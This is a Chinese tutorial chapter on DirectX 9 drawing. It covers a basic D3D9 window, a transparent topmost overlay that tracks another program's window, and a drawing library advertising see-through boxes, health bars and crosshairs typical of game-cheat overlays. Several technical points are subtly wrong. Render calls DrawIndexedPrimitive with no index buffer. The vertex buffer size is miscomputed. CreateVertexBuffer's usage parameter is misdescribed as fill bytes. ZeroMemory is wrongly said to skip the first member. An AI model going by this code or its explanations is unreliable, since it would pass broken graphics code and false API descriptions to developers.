在开始使用绘制库之前我们需要一个可被自由绘制的画布程序，该程序必须使用D3Dx9引擎生成以便于后续文章的测试工作，一般而言，使用`DirectX 9`绘制图形的流程包括初始化、创建资源、设置渲染状态和顶点格式、更新数据、绘制图形、渲染和清理资源构成，在使用之前读者需要引入Dx9的头文件以及所需定义部分，如下所示；

```c
#include <windows.h> 
#include <tchar.h> 
#include <d3d9.h>
#pragma comment( lib, "d3d9.lib") 

#define null NULL
#define RETURN return
#define FVF ( D3DFVF_XYZRHW | D3DFVF_DIFFUSE ) 

LPDIRECT3D9             g_pD3D = NULL;
LPDIRECT3DDEVICE9       g_pd3dDevice = NULL;
LPDIRECT3DVERTEXBUFFER9 g_pVB = NULL;

struct CUSTOMVERTEX
{
    float x, y, z, rhw;
    DWORD color;
};
```

#### 13.1.2 LPDIRECT3D9

其中定义的全局指针`LPDIRECT3D9`是`DX9`中的一个指针类型，表示一个`Direct3D 9`的顶层对象。顶层对象是`Direct3D`对象模型的顶级结构，它为应用程序提供了一组方法来进行`3D`图形渲染。LPDIRECT3D9接口可以用来创建和操作`Direct3D 9`设备对象`IDirect3DDevice9`以及其他与图形渲染相关的对象。在使用DX9进行图形渲染之前，必须通过调用`Direct3DCreate9`函数来创建一个`IDirect3D9`接口的实例，并通过`LPDIRECT3D9`类型的指针进行访问和操作。例如，使用下面的代码可以创建一个LPDIRECT3D9对象：
```c
LPDIRECT3D9 d3d9 = Direct3DCreate9(D3D_SDK_VERSION);
```

这将创建一个指向`Direct3D 9`的顶层对象的指针，并将其分配给变量`d3d9`。通过这个`LPDIRECT3D9`对象，应用程序就可以执行各种与图形渲染相关的操作，如创建顶点缓存、纹理对象等。在程序结束时，应用程序必须通过调用`LPDIRECT3D9`对象的`Release`方法来释放所有创建的`Direct3D`对象，以防止内存泄漏。
```c
d3d9->Release();
```

#### 13.1.3 LPDIRECT3DDEVICE9

第二个全局变量`LPDIRECT3DDEVICE9`是`DirectX 9`中表示3D设备的指针类型，它是使用`Direct3D`进行`3D`渲染的关键对象。LPDIRECT3DDEVICE9对象表示着本次渲染中的3D对象在硬件上的运算环境，通过它可以对3D对象进行变换、光照和纹理等操作。通过`LPDIRECT3D9`对象创建的步骤通常包括以下几个步骤：

1.创建一个`LPDIRECT3D9`对象，通过`Direct3DCreate9`函数创建，如下所示：
```c
LPDIRECT3D9 d3d9 = Direct3DCreate9(D3D_SDK_VERSION);
```

2.使用`LPDIRECT3D9`对象创建一个`IDirect3DDevice9`对象，可以通过调用`LPDIRECT3D9`对象的`CreateDevice`方法来创建，如下所示：
```c
LPDIRECT3DDEVICE9 d3dDevice;

D3DPRESENT_PARAMETERS presentParams = {0};
presentParams.Windowed = TRUE;
presentParams.SwapEffect = D3DSWAPEFFECT_DISCARD;

d3d9->CreateDevice(D3DADAPTER_DEFAULT, D3DDEVTYPE_HAL, hWnd, D3DCREATE_HARDWARE_VERTEXPROCESSING, &presentParams, &d3dDevice);
```
这个代码片段创建了一个窗口化的3D设备并将其存储到变量`d3dDevice`中。其中`D3DADAPTER_DEFAULT`和`D3DDEVTYPE_HAL`参数表示选择默认显示适配器和硬件抽象层，`hWnd`参数为窗口句柄，`D3DCREATE_HARDWARE_VERTEXPROCESSING`表示使用硬件进行顶点计算，`&presentParams`为一个`D3DPRESENT_PARAMETERS`结构体指针，用于配置呈现参数。

3.初始化3D设备对象，可以设置一些统一的设备状态，如渲染状态、混合模式等，它将禁用光照计算。如下所示：
```c
d3dDevice->SetRenderState(D3DRS_LIGHTING, FALSE);
```

4.在进行有效的渲染之前，必须在每一帧开始时调用`BeginScene`方法，以告知`Direct3D`实例开始渲染，如下所示：
```c
d3dDevice->BeginScene();
```

5.渲染3D对象，通过`LPDIRECT3DDEVICE9`对象进行绘制，并进行相应的3D数据应用操作，如下所示：
```c
d3dDevice->DrawPrimitive(D3DPT_TRIANGLELIST, 0, 1);
```

渲染结束后，可以调用`EndScene`方法通知`Direct3D`实例结束渲染并显示图像，如下所示：
```c
d3dDevice->EndScene();
```

最后，使用SwapChain显示图像，如下所示：
```c
d3dDevice->Present(NULL, NULL, NULL, NULL);
```

在程序退出时，借助于`LPDIRECT3DDEVICE9`对象的`Release`方法释放所有创建的`Direct3D`对象，以避免内存泄漏。
```c
d3dDevice->Release();
```

#### 13.1.4 LPDIRECT3DVERTEXBUFFER9

LPDIRECT3DVERTEXBUFFER9是`DirectX 9`中表示顶点缓冲区的指针类型，它被用来存储`3D网格`的顶点数据，是`Direct3D`游戏开发中的一个重要概念之一。顶点缓冲区是一个可以包含顶点数据的内存块，它可以存储可绘制的几何体（三角形、四边形等）的顶点数据。

使用`LPDIRECT3DVERTEXBUFFER9`对象存储顶点数据，可以充分利用硬件加速能力，提高渲染效率和图形性能，优化游戏性能。

顶点缓冲区由顶点格式和顶点数据两部分组成：

 - 顶点格式（Vertex Format）: 表示顶点数据的结构和排列方式。使用`D3DVertexElement9`和`D3DVertexDeclaration9`等API进行创建、声明以及管理。
 - 顶点数据（Vertex Data）: 包含了网格的所有顶点数据，如坐标、法线、颜色、纹理坐标等。可以使用`LPDIRECT3DVERTEXBUFFER9`对象存储，同时还可以使用其他缓冲区类型如索引缓冲区（LPDIRECT3DINDEXBUFFER9）来存储索引数据，方便后续渲染处理。

创建`LPDIRECT3DVERTEXBUFFER9`对象的步骤通常如下：

首先，声明并创建一个顶点缓冲区对象。在创建`LPDIRECT3DVERTEXBUFFER9`对象时，需要指定缓冲区大小、缓冲区用法等参数。
```c
LPDIRECT3DVERTEXBUFFER9 pVertexBuffer = NULL;

device->CreateVertexBuffer(vertexBufferSize, D3DUSAGE_WRITEONLY, FVF, D3DPOOL_MANAGED, &pVertexBuffer, NULL);
```

写入顶点数据到顶点缓冲区，使用Lock方法可以将顶点缓冲区锁定，返回已锁定的顶点缓冲区指针，并且允许应用程序与锁定的数据进行读写操作，然后使用`Unlock`方法来解锁。
```c
float* pBuffer = NULL;

pVertexBuffer->Lock(0, 0, (void**)&pBuffer, 0);

memcpy(pBuffer, vertices, vertexBufferSize);

pVertexBuffer->Unlock();
```

绘制几何体时，可以使用`SetStreamSource`方法指定顶点缓冲区、顶点格式以及偏移量。最后调用`DrawPrimitive`方法进行绘制。
```c
device->SetFVF(FVF);
device->SetStreamSource(0, pVertexBuffer, 0, sizeof(Vertex));
device->DrawPrimitive(D3DPT_TRIANGLELIST, 0, numTriangles);
```

#### 13.1.5 初始化绘图引擎

接着我们来看一下我们是如何初始化一个D3D引擎的，`InitD3D`函数会在游戏程序启动时被调用，以初始化3D设备和相关环境，为后续的3D图形渲染操作做好准备。初始化部分答题可总结为三步，首先调用`Direct3DCreate9`用于创建一个Dx9引擎画布，接着填充`D3DPRESENT_PARAMETERS`结构，最后通过使用`CreateDevice`实现对设备的创建，当创建成功则会将指针保存在`LPDIRECT3D9`这个全局结构指针内。

```c
HRESULT InitD3D(HWND hWnd)
{
  g_pD3D = Direct3DCreate9(D3D_SDK_VERSION);
  D3DPRESENT_PARAMETERS d3dpp;
  ZeroMemory(&d3dpp, sizeof(d3dpp));
  d3dpp.Windowed = TRUE;
  d3dpp.BackBufferFormat = D3DFMT_UNKNOWN;
  d3dpp.SwapEffect = D3DSWAPEFFECT_DISCARD;
  g_pD3D->CreateDevice(D3DADAPTER_DEFAULT, D3DDEVTYPE_HAL, hWnd, D3DCREATE_HARDWARE_VERTEXPROCESSING, &d3dpp, &g_pd3dDevice);
  return S_OK;
}
```

上述流程具体分析，步骤如下：

使用`Direct3DCreate9`函数创建一个`LPDIRECT3D9`对象，该对象表示顶层`Direct3D`对象，负责管理和控制DX操作。
```c
g_pD3D = Direct3DCreate9(D3D_SDK_VERSION);
```

创建并配置`D3DPRESENT_PARAMETERS`结构体，该结构体用于描述渲染设备的一些基本属性，如窗口模式、后台缓冲区格式、交换模式等。
```c
D3DPRESENT_PARAMETERS d3dpp;
ZeroMemory(&d3dpp, sizeof(d3dpp));
d3dpp.Windowed = TRUE;
d3dpp.BackBufferFormat = D3DFMT_UNKNOWN;
d3dpp.SwapEffect = D3DSWAPEFFECT_DISCARD;
```
在上述代码中，使用`ZeroMemory()`函数将`d3dpp`对象中除第1个成员外所有成员的值都重置为0。还设置了窗口模式（Windowed = TRUE，表示窗口化模式），后台缓冲区格式（BackBufferFormat = D3DFMT_UNKNOWN，表示使用默认格式），以及交换模式（SwapEffect = D3DSWAPEFFECT_DISCARD，表示丢弃当前帧并替换为下一帧）。

使用`CreateDevice`函数创建一个`IDirect3DDevice9`对象，并保存在变量`g_pd3dDevice`中。
```c
g_pD3D->CreateDevice(D3DADAPTER_DEFAULT, D3DDEVTYPE_HAL, hWnd, D3DCREATE_HARDWARE_VERTEXPROCESSING, &d3dpp, &g_pd3dDevice);
```

在这里，第1个参数（D3DADAPTER_DEFAULT）表示使用默认显示适配器；第2个参数（D3DDEVTYPE_HAL）指定使用硬件抽象层，表示硬件加速；第3个参数（hWnd）是窗口句柄；第4个参数（D3DCREATE_HARDWARE_VERTEXPROCESSING）表示使用硬件进行顶点处理。最后，使用&d3dpp、&g_pd3dDevice参数传递设备创建信息。最后，返回`S_OK`表示函数执行成功。

初始化部分的第二步则是调用`InitVB`这个函数，该函数用于创建顶点缓冲区，可以用于存储3D网格的顶点数据，方便后续的渲染处理；
```c
HRESULT InitVB()
{
  CUSTOMVERTEX v[] =
  {
    100, 000, 0, 1, 0xffff0000,
    300, 50, 0, 1, 0xff00ff00,
    500, 400, 0, 1, 0xff0000ff
  };

  g_pd3dDevice->CreateVertexBuffer(3 * sizeof(v), 0, FVF, D3DPOOL_DEFAULT, &g_pVB, 0);

  void* vb;
  g_pVB->Lock(0, 0, (void**)&vb, 0);
  memcpy(vb, v, sizeof(v));
  g_pVB->Unlock();
  return S_OK;
}
```

上述代码中，首先声明一个`CUSTOMVERTEX`类型的数组`v`，并将其作为输入参数，其中每一个元素表示一个自定义的顶点，包括位置坐标和颜色。
```c
CUSTOMVERTEX v[] =
{
    100, 000, 0, 1, 0xffff0000,
    300, 50, 0, 1, 0xff00ff00,
    500, 400, 0, 1, 0xff0000ff
};
```
在代码中，每个元素都包含了顶点的`x、y、z`坐标、齐次坐标w，以及顶点的颜色。

调用`CreateVertexBuffer`函数，创建一个顶点缓冲区对象，并将其保存在变量`g_pVB`中。该函数的第1个参数表示缓冲区大小，即存储顶点数据的字节数，这里是3个顶点乘以每个顶点40个字节（即一个CUSTOMVERTEX类型的大小）；第2个参数是填充字节的数值，设为0表示不填充；第3个参数是顶点格式，表示每个顶点包含的信息，和`CUSTOMVERTEX`数据结构一致；第4个参数是缓冲区类型，表示缓冲区的使用方式，D3DPOOL_DEFAULT表示缓存区将用于GPU读写操作。最后，`&g_pVB`是返回的顶点缓冲区对象。
```c
g_pd3dDevice->CreateVertexBuffer(3 * sizeof(v), 0, FVF, D3DPOOL_DEFAULT, &g_pVB, 0);
```

对顶点缓冲区进行锁定，使用`Lock函数`使缓冲区可读写，并将顶点数据写入缓冲区中。这里使用`void*`类型的指针vb指向顶点缓冲区中的第一个元素，并使用`memcpy()`函数将顶点数组的数据拷贝到顶点缓冲区中。并使用`Unlock()`函数解除顶点缓冲区的锁定。最后返回`S_OK`，作为函数执行成功的标志。
```c
void* vb;
g_pVB->Lock(0, 0, (void**)&vb, 0);
memcpy(vb, v, sizeof(v));
g_pVB->Unlock();
```

接着对窗口中的图形进行着色及初始化，
```c
void Render()
{
  g_pd3dDevice->Clear(0, 0, D3DCLEAR_TARGET, D3DCOLOR_XRGB(176, 196, 222), 1, 0);
  // 设置背景色 黑色
  // g_pd3dDevice->Clear(0, 0, D3DCLEAR_TARGET, D3DCOLOR_XRGB(0, 0, 0), 1, 0);

  g_pd3dDevice->BeginScene();
  g_pd3dDevice->SetStreamSource(0, g_pVB, 0, sizeof(CUSTOMVERTEX));
  g_pd3dDevice->SetFVF(FVF);
  //g_pd3dDevice->DrawPrimitive(D3DPT_TRIANGLELIST, 0, 10);
  g_pd3dDevice->DrawIndexedPrimitive(D3DPT_TRIANGLELIST, 0, 0, 4, 0, 4);
  g_pd3dDevice->EndScene();

  g_pd3dDevice->Present(0, 0, 0, 0);
}
```

使用`Clear`函数清除背景，并设置新的背景色。这里使用`D3DCOLOR_XRGB(176, 196, 222)`，表示颜色值为`R:176, G:196, B:222`的浅蓝色。
```c
g_pd3dDevice->Clear(0, 0, D3DCLEAR_TARGET, D3DCOLOR_XRGB(176, 196, 222), 1, 0);
```

使用`BeginScene`函数开始渲染场景。
```c
g_pd3dDevice->BeginScene();
```
设置顶点着色器的输入数据源。使用`SetStreamSource`函数设置使用的顶点缓冲区，其中第1个参数是流编号，第2个参数是顶点缓冲区对象，第3个参数是缓冲区内顶点数据的起始点，第4个参数是顶点结构体的大小。
```c
g_pd3dDevice->SetStreamSource(0, g_pVB, 0, sizeof(CUSTOMVERTEX));
```

设置顶点格式。使用`SetFVF`函数描述顶点的结构，这里的FVF常量是一个结构体标记符号，用于描述顶点的类型和结构。
```c
g_pd3dDevice->SetFVF(FVF);
```
使用`DrawPrimitive`函数或`DrawIndexedPrimitive`函数绘制图形，这里使用的是后者。该函数绘制在缓冲区中的三角形列表，根据输入的位置在缓冲区中查找三角形点，再连接相邻的三角形点，形成3D图形。第1个参数（D3DPT_TRIANGLELIST）表示三角形列表，第2个参数是起始顶点索引，第3个参数是最小顶点索引，第4个参数是被绘制的总顶点数，第5个参数（0）表示要跳过的数据数量，第6个参数（4）表示每个图元的顶点数。
```c
g_pd3dDevice->DrawIndexedPrimitive(D3DPT_TRIANGLELIST, 0, 0, 4, 0, 4);
```

使用`EndScene`函数结束本次渲染。
```c
g_pd3dDevice->EndScene();
```
使用Present函数展示渲染结果到窗口中。
```c
g_pd3dDevice->Present(0, 0, 0, 0);
```

当有了上述初始化函数的封装后，接着我们就可以在主函数内通过`CreateWindow`函数创建一个窗体，并在初始化流程内通过调用`InitD3D(hWnd)`以及`InitVB()`对D3D引擎初始化，初始化后进入到该程序的消息循环内，在消息循环内除了通过`TranslateMessage`捕获消息外，还需要不间断的调用`Render()`用于动态刷新D3D窗体显示，这样则可实现动态绘制一个完整窗体并加载绘图引擎的目的；
```c
LRESULT CALLBACK WndProc(HWND hWnd, UINT message, WPARAM wParam, LPARAM lParam)
{
    message == WM_CLOSE ? PostQuitMessage(0) : (void)0;
    return DefWindowProc(hWnd, message, wParam, lParam);
}

int WINAPI _tWinMain(HINSTANCE hInstance, HINSTANCE, PTSTR, int)
{
    wchar_t cn[] = L"LySharkGame";
    WNDCLASS wc;
    wc.style = CS_HREDRAW | CS_VREDRAW;
    wc.lpfnWndProc = WndProc;
    wc.cbClsExtra = 0;
    wc.cbWndExtra = 0;
    wc.hInstance = hInstance;
    wc.hIcon = LoadIcon(NULL, IDI_APPLICATION);
    wc.hCursor = LoadCursor(NULL, IDC_ARROW);
    wc.hbrBackground = (HBRUSH)GetStockObject(WHITE_BRUSH);
    wc.lpszMenuName = NULL;
    wc.lpszClassName = cn;
    RegisterClass(&wc);

    DWORD cxScreen = GetSystemMetrics(SM_CXSCREEN);
    DWORD cyScreen = GetSystemMetrics(SM_CYSCREEN);

    HWND hWnd = CreateWindow(cn, TEXT("LySharkGame"), WS_OVERLAPPEDWINDOW, (cxScreen - 1024) / 2, (cyScreen - 768) / 2, 1024, 768, NULL, NULL, hInstance, NULL);
    ShowWindow(hWnd, SW_SHOW);

    InitD3D(hWnd);
    InitVB();

    MSG msg;
    ZeroMemory(&msg, sizeof(msg));
    while (msg.message != WM_QUIT)
    {
        if (PeekMessage(&msg, NULL, 0, 0, PM_REMOVE))
        {
            TranslateMessage(&msg);
            DispatchMessage(&msg);
        }
        else
        {
            Render();
        }
    }
    return 0;
}
```

至此我们就得到了一个具有`D3D`功能的窗体，当读者打开该窗体时即可看到一个标题为`LySharkGame`的窗体，该窗体大小为标准的`1024x768`这个窗体输出效果如下图所示；



### 13.2 外部DirectX绘制实现

在前一节中我们简单介绍了D3D绘制窗体所具备的基本要素，本节将继续探索外部绘制技术的实现细节，并以此实现一些简单的图形绘制功能，首先外部绘制的核心原理是通过动态创建一个新的窗口并设置该窗口属性为透明无边框状态，通过消息循环机制实现对父窗口的动态跟随附着功能，当读者需要绘制新的图形时只需要绘制在透明窗体之上即可实现动态显示的效果。

#### 13.2.1 必要参数定义

首先第一步定义所需要的关键变量如下，代码中包含了`DirectX 9`和`DWM`的必要库，代码初始化了一些`Direct3D 9`的变量和指针，包括`Direct3D 9`设备、呈现参数、Direct3D 线条对象和 Direct3D 字体对象。代码还定义了一个窗口类和一个用于渲染矩形的全局函数指针。
```c
#include <d3dx9.h>
#include <dwmapi.h>

#pragma comment(lib, "d3d9.lib")
#pragma comment(lib, "d3dx9.lib")
#pragma comment(lib, "dwmapi.lib")

static MARGINS Margin;
static LPDIRECT3D9 g_pD3D = NULL;
static LPDIRECT3DDEVICE9 g_pd3dDevice = NULL;
static D3DPRESENT_PARAMETERS g_d3dpp = {};
static ID3DXLine* pLine = 0;
static ID3DXFont* Font;

// 存储全局窗口信息
static HWND AuxiliaryWindowHandle, GameHwnd;
static RECT WindowRectangle;
static int WindowWidth, WindowHeight;

// 注册窗口类
static WNDCLASSEX wClass;

// 绘制矩形全局指针
typedef VOID(*Draw)();
static Draw Render;
```

#### 13.2.2 初始化绘图引擎

初始化绘图引擎`InitD3D`函数，函数通过`Direct3DCreate9`创建`Direct3D`对象，并用`g_pD3D`指针指向它，并将绘制结构体`g_d3dpp`中一些参数初始化，例如启用窗口模式、交换方式等等。通过`CreateDevice`方法创建`Direct3D`绘图设备，通过`D3DXCreateLine`方法创建`Direct3D`线条对象，以便绘制直线段。最后调用`D3DXCreateFontW`来创建`Direct3D`字体对象，使得程序可以在绘图中使用特定的字体呈现文字。
```c
// 初始化绘制引擎
BOOL InitD3D()
{
    // 初始化绘制引擎
    if ((g_pD3D = Direct3DCreate9(D3D_SDK_VERSION)) == NULL)
    {
        return FALSE;
    }

    // 填充绘制结构体
    ZeroMemory(&g_d3dpp, sizeof(g_d3dpp));
    g_d3dpp.Windowed = TRUE;
    g_d3dpp.SwapEffect = D3DSWAPEFFECT_DISCARD;
    g_d3dpp.BackBufferFormat = D3DFMT_UNKNOWN;
    g_d3dpp.EnableAutoDepthStencil = TRUE;
    g_d3dpp.AutoDepthStencilFormat = D3DFMT_D16;
    g_d3dpp.PresentationInterval = D3DPRESENT_INTERVAL_ONE;

    // 创建D3D绘制设备
    if (g_pD3D->CreateDevice(D3DADAPTER_DEFAULT, D3DDEVTYPE_HAL, AuxiliaryWindowHandle, D3DCREATE_HARDWARE_VERTEXPROCESSING, &g_d3dpp, &g_pd3dDevice) < 0)
    {
        return FALSE;
    }

    // 创建D3D线条
    if (pLine == NULL)
    {
        D3DXCreateLine(g_pd3dDevice, &pLine);
    }

    // 创建D3D字体
    D3DXCreateFontW(g_pd3dDevice, 16, 0, FW_DONTCARE, D3DX_DEFAULT, FALSE, DEFAULT_CHARSET, OUT_DEFAULT_PRECIS, DEFAULT_QUALITY, FF_DONTCARE, L"Vernada", &Font);

    return TRUE;
}
```

#### 13.2.3 初始化并创建消息循环

封装实现`CreateTransparentWindow`函数，该函数用于创建一个透明窗口来显示`Direct3D`渲染的图形和文本，函数接受两个参数，游戏窗口句柄和绘制函数，其中游戏窗口句柄表示将要在其上绘制图形和文本的窗口句柄，而绘制函数则是指向绘制矩形的全局指针。函数`WindowMessageLoop`则用于等待消息循环，在该循环内我们通过不间断调用`GetWindowRect`获取父窗口大小变化或移动位置变化，并通过`MoveWindow`动态调整，该流程可实现动态跟随窗体移动。
```c
// 窗口消息处理函数
LRESULT WinProc(HWND hWnd, UINT Message, WPARAM wParam, LPARAM lParam)
{
    switch (Message)
    {
    case WM_PAINT:
        if (g_pd3dDevice)Render();
        break;

    case WM_CREATE:
        DwmExtendFrameIntoClientArea(hWnd, &Margin);
        break;

    case WM_DESTROY:
    {
        g_pD3D->Release();
        g_pd3dDevice->Release();
        exit(1);
        return 0;
    }
    default:
        return DefWindowProc(hWnd, Message, wParam, lParam);
        break;
    }
    return 0;
}

// 创建透明窗口过程
VOID CreateTransparentWindow(HWND 游戏窗口句柄, Draw 绘制函数)
{
    if (绘制函数 == NULL || 游戏窗口句柄 == 0)
    {
        return;
    }

    GameHwnd = 游戏窗口句柄;
    Render = 绘制函数;

    // 初始化窗口类
    wClass.cbClsExtra = NULL;
    wClass.cbSize = sizeof(WNDCLASSEX);
    wClass.cbWndExtra = NULL;
    wClass.hbrBackground = (HBRUSH)CreateSolidBrush(RGB(0, 0, 0));
    wClass.hCursor = LoadCursor(0, IDC_ARROW);
    wClass.hIcon = LoadIcon(0, IDI_APPLICATION);
    wClass.hIconSm = LoadIcon(0, IDI_APPLICATION);
    wClass.hInstance = GetModuleHandle(NULL);
    wClass.lpfnWndProc = (WNDPROC)WinProc;
    wClass.lpszClassName = L" ";
    wClass.lpszMenuName = L" ";
    wClass.style = CS_VREDRAW | CS_HREDRAW;

    // 注册窗口
    if (RegisterClassEx(&wClass) == 0)
    {
        exit(1);
    }

    //创建窗口
    GetWindowRect(GameHwnd, &WindowRectangle);
    WindowWidth = WindowRectangle.right - WindowRectangle.left;
    WindowHeight = WindowRectangle.bottom - WindowRectangle.top;
    AuxiliaryWindowHandle = CreateWindowEx(WS_EX_TOPMOST | WS_EX_TRANSPARENT | WS_EX_LAYERED, L" ", L" ", WS_POPUP, 1, 1, WindowWidth, WindowHeight, 0, 0, 0, 0);

    //显示窗口
    SetLayeredWindowAttributes(AuxiliaryWindowHandle, 0, RGB(0, 0, 0), LWA_COLORKEY);
    ShowWindow(AuxiliaryWindowHandle, SW_SHOW);

    // 初始化D3D引擎
    InitD3D();
}

// 设置窗体消息循环
VOID WindowMessageLoop()
{
    while (1)
    {
        // 动态附着
        if (GameHwnd)
        {
            // 得到窗口大小
            GetWindowRect(GameHwnd, &WindowRectangle);
            WindowWidth = WindowRectangle.right - WindowRectangle.left;
            WindowHeight = WindowRectangle.bottom - WindowRectangle.top;
            DWORD dwStyle = GetWindowLong(GameHwnd, GWL_STYLE);
            if (dwStyle & WS_BORDER)
            {
                WindowRectangle.top += 23;
                WindowHeight -= 23;
            }
            
            // 动态附着跟随窗体
            MoveWindow(AuxiliaryWindowHandle, WindowRectangle.left, WindowRectangle.top, WindowWidth, WindowHeight, true);
        }

        // 处理窗口消息
        MSG Message;
        ZeroMemory(&Message, sizeof(Message));
        if (PeekMessage(&Message, 0, 0, 0, PM_REMOVE))
        {
            DispatchMessage(&Message);
            TranslateMessage(&Message);
        }

        Sleep(1);
    }

    if (g_pd3dDevice)
    {
        g_pd3dDevice->Release();
        g_pd3dDevice = NULL;
    }

    if (g_pD3D)
    {
        g_pD3D->Release();
        g_pD3D = NULL;
    }

    CloseWindow(AuxiliaryWindowHandle);

    UnregisterClass(wClass.lpszClassName, wClass.hInstance);
}
```

#### 13.2.4 封装实现绘图函数

DrawLine，用于绘制线条该函数接受四个参数，分别为线段的起始坐标`X1`和`Y1`，线段的终止坐标`X2`和`Y2`，以及颜色`Color`。该函数使用`D3DXVECTOR2`结构体初始化两个点型变量`Vertex`，然后调用`pLine`的`SetWidth`方法设置绘制线段的宽度为 1，最后调用`Draw`方法在屏幕上绘制出一条线段。

DrawTextString，用于绘制文本该函数接受四个参数，分别为文本字符串的起始坐标`X`和`Y`，需要显示的文本字符串`Str`，以及文本颜色`Color`。该函数首先使用`Font`对象的`DrawTextA`方法来测量文本字符串的大小，并将其存储在一个`RECT`结构体变量`Rect`中，然后再次使用`Font`对象的`DrawTextA`方法来将字符串绘制在屏幕上。

DrawBox，用于绘制矩形该函数接受五个参数，分别为矩形的左上角坐标`X`和`Y`，矩形的宽度`W`和高度`H`，以及矩形线条的宽度`Width`，以及颜色`C`。该函数使用`D3DXVECTOR2`结构体初始化5个点型变量`Vertex`，依次为左上角、右上角、右下角、左下角和左上角。然后调用`pLine`对象的`SetWidth`方法，设置绘制线段的宽度为`Width`，最后调用`Draw`方法在屏幕上绘制出整个矩形。

```c
// 屏幕画线
VOID DrawLine(float X1, float Y1, float X2, float Y2, D3DCOLOR Color)
{
    D3DXVECTOR2 Vertex[2] = { { X1, Y1 }, { X2, Y2 } };
    pLine->SetWidth(1);
    pLine->Draw(Vertex, 2, Color);
}

// 绘制文本字符串
VOID DrawTextString(float X, float Y, const char* Str, D3DCOLOR Color)
{
    RECT Rect = { (LONG)X, (LONG)Y };
    Font->DrawTextA(NULL, Str, -1, &Rect, DT_CALCRECT, Color);
    Font->DrawTextA(NULL, Str, -1, &Rect, DT_LEFT, Color);
}

// 屏幕画方框
VOID DrawBox(float X, float Y, float W, float H, float Width, D3DCOLOR Color)
{
    D3DXVECTOR2 Vertex[5] = { { X, Y }, { X + W, Y }, { X + W, Y + H }, { X, Y + H }, { X, Y } };
    pLine->SetWidth(Width);
    pLine->Draw(Vertex, 5, Color);
}
```

#### 13.2.5 实现屏幕绘制功能

在最后读者可将上述功能整合在一起，实现动态绘制功能，首先我们需要得到所需绘制进程的窗口句柄，在VS中的工具类自带了一个`Spy++`读者可使用该工具得到指定窗体的句柄信息，如下图所示；



当得到句柄后则可填充之如下所示`GameHandle`变量内，当我们需要绘制图形时只需要在`GlobalDrawFunction`函数内部编写流程即可，该函数内通过`BeginScene`设置开始绘制，在绘制代码区读者可自行使用上述封装函数实现自定义绘制，当绘制结束后需要通过`EndScene`结束本次绘制操作，完整绘制代码如下图所示；
```c
// 调用全局绘制
VOID GlobalDrawFunction()
{
    // 开始绘制
    g_pd3dDevice->Clear(0, 0, D3DCLEAR_TARGET, 0, 1.0f, 0);
    g_pd3dDevice->BeginScene();

    // 绘制文本字符串
    DrawTextString(100, 200, "Hello LyShark", D3DCOLOR_ARGB(56, 0, 52, 0));
    DrawTextString(200, 300, "PowerBy LyShark", D3DCOLOR_ARGB(255, 0, 255, 0));

    // 屏幕画线
    DrawLine(110, 300, 20,  30, D3DCOLOR_ARGB(56, 0, 52, 0));

    // 屏幕画方框
    DrawBox(40, 40, 50, 100, 1, D3DCOLOR_ARGB(255, 0, 52, 0));
    DrawBox(140, 38, 50, 90, 1, D3DCOLOR_ARGB(255, 0, 255, 0));


    // 结束绘制
    g_pd3dDevice->EndScene();
    g_pd3dDevice->Present(0, 0, 0, 0);
}

int main(int argc, char *argv[])
{
    // 获取窗口句柄
    HWND GameHandle = (HWND)0x00506E6;

    while (1)
    {
        // 循环绘制
        CreateTransparentWindow(GameHandle, GlobalDrawFunction);
        WindowMessageLoop();
    }

    return 0;
}
```

运行上述代码片段，此时读者可看到如下图所示的输出信息，其中包括两个矩形，两个文本字符串，以及一条直线；



### 13.3 运用LyDrawLib库绘制

LyDrawLib 是一款使用C语言开发的外部图形绘制模块，该模块基于`DirectX 9`引擎，能够实现在已有进程之上进行动态绘制。主要的特性包括，支持绘制透视方框、实心方框、半角方框、带有血条的方框、各种准星、描边文本的显示等。无论是静态的图形还是动态的效果，都能够被完美绘制。

使用`LyDrawLib`库绘制时读者只需要调用`Start()->createWindow()`这个函数即可，该函数主要实现动态创建一个透明窗体并将该窗体附着在被附着进程的顶部，该函数需要传入四个参数，其中前两个参数用于指定被附着进程的窗体类名，第三个参数用于指定绘制时所使用的字体类型，最后一个参数用于传递一个回调函数，由于此处我们不仅仅需要实现绘制效果还需要实现动态控制，则`Ptr()`回调函数内可以直接指定`Function()`用于实现功能判断，而`Draw()`函数则只负责动态绘制，通过两者的组合即可实现动态绘制图形并控制的效果，如下代码所示则是一个绘制框架；
```c
#include "LyDrawLib.h"

int w = 0;
int h = 0;

// 函数功能实现
void Function()
{

}

// 菜单绘制部分
void Draw()
{

}

// 函数中转
void Ptr()
{
    Function();
    Draw();
}

int main(int argc, char *argv[])
{
    // 运行线程
    const char* class_name = "LySharkGame";

    w = LyDrawLib::Start()->GetWindowWidth(class_name, class_name);
    h = LyDrawLib::Start()->GetWindowHeight(class_name, class_name);

    // 开始绘制
    LyDrawLib::Start()->createWindow(class_name, class_name, "黑体", Ptr);

    return 0;
}
```

#### 13.3.1 绘制实心矩形

当我们需要绘制各类图形时只需要在`Draw()`函数内调用不同的库函数即可，首先我们先来绘制两种填充矩形，所谓的填充矩形也就是实心的，对于此类矩形的绘制可通过调用`DrawFilledRectangle`函数实现，该函数接收五个参数，第一二个参数分别代表绘制方框的X以及Y坐标，第三四个参数则分别代表矩形的宽度与高度，最后一个参数代表的是绘制时使用的三原色，`D3DCOLOR_RGBA`宏定义用于指定这三种颜色。
```c
void Draw()
{
    // 实心矩形
    LyDrawLib::Start()->DrawFilledRectangle(20, 20, 90, 150, D3DCOLOR_RGBA(254, 0, 0, 184));

    LyDrawLib::Start()->DrawFilledRectangle(120, 20, 60, 100, D3DCOLOR_RGBA(22, 0, 0, 184));

    LyDrawLib::Start()->DrawFilledRectangle(220, 20, 60, 100, D3DCOLOR_RGBA(233, 254, 0, 184));

    LyDrawLib::Start()->DrawFilledRectangle(320, 20, 30, 50, D3DCOLOR_RGBA(233, 22, 112, 184));

    // 实心矩形 半透明
    LyDrawLib::Start()->DrawFilledRectangleB(420, 20, 40, 60, D3DCOLOR_RGBA(157, 14, 77, 184));

    LyDrawLib::Start()->DrawFilledRectangleB(420, 20, 40, 60, D3DCOLOR_RGBA(157, 14, 77, 184));

    LyDrawLib::Start()->DrawFilledRectangleB(520, 20, 40, 60, D3DCOLOR_RGBA(247, 55, 96, 147));
}
```

运行上述绘制代码，读者可看到如下图所示的实体图形输出；



#### 13.3.2 绘制空心矩形

